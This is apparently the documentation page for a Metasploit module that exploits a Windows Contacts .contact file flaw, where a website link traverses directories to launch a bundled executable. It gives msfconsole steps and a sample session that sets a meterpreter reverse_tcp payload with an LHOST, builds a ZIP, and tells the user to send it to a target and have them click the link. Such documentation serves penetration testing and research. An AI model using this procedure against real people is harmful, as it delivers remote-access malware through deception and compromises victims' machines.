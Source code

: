 ## Description

This module allows remote attackers to execute arbitrary code on vulnerable
installations of Microsoft Windows.  User interaction is required to exploit
this vulnerability in that the target must visit a malicious page or open a
malicious file.  The flaw is due to the processing of ".contact" files <c:Url>
node param which takes an expected website value, however if an attacker
references an executable file it will run that instead without warning instead
of performing expected web navigation.  This is dangerous and would be
unexpected to an end user.

Executable files can live in a sub-directory so when the ".contact" website link
is clicked it traverses directories towards the executable and runs.  Making
matters worse is if the files are compressed then downloaded "mark of the
web" (MOTW) may potentially not work as expected with certain archive utilitys.
The "." chars allow directory traversal to occur in order to run the attackers
supplied executable sitting unseen in the attackers directory.  This advisory is
a duplicate issue that currently affects Windows .VCF files, and released for
the sake of completeness as it affects Windows .contact files as well.

## Vulnerable Application

Windows Contacts
(tested on Windows 10.0.18282)

## Verification Steps

1. `./msfconsole`
2. `use exploit/windows/fileformat/microsoft_windows_contact`
3. Configure the payload.  For example: `set PAYLOAD windows/x64/meterpreter/bind_tcp`
4. Configure the payload parameters.  For example: `set LHOST 192.168.1.1`
5. Enter the name of the user to be embedded in the contact, which will also be used as the filename for the .ZIP and .CONTACTS files.  For example, `set FILENAME John Smith`
6. Enter the fake URL that the user must click to launch the payload.  Note, this does not need to be a valid domain.  For example: `set WEBSITE metasploit.com`
7. `run`
8. Confirm the ZIP file was created, and that it contains a `.CONTACT` file along with a payload in the `http` folder.

## Scenarios

### Exploiting a Windows 10 host

1. Configure the module-specific settings.

```
msf exploit(windows/fileformat/microsoft_windows_contact) > set WEBSITE metasploit.com
WEBSITE => metasploit.com
msf exploit(windows/fileformat/microsoft_windows_contact) > set FILENAME John Smith
FILENAME => John Smith
```

2. Configure the payload.
```
msf exploit(windows/fileformat/microsoft_windows_contact) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/microsoft_windows_contact) > set LHOST 192.168.1.148
LHOST => 192.168.1.148
msf exploit(windows/fileformat/microsoft_windows_contact) > run

[+] Creating 'John Smith.zip'
```

3. Send the ZIP to the target machine.

4. On the target machine, extract the ZIP file, open the .CONTACT file in the Windows Contacts viewer, and click the URL in the "Website" field.
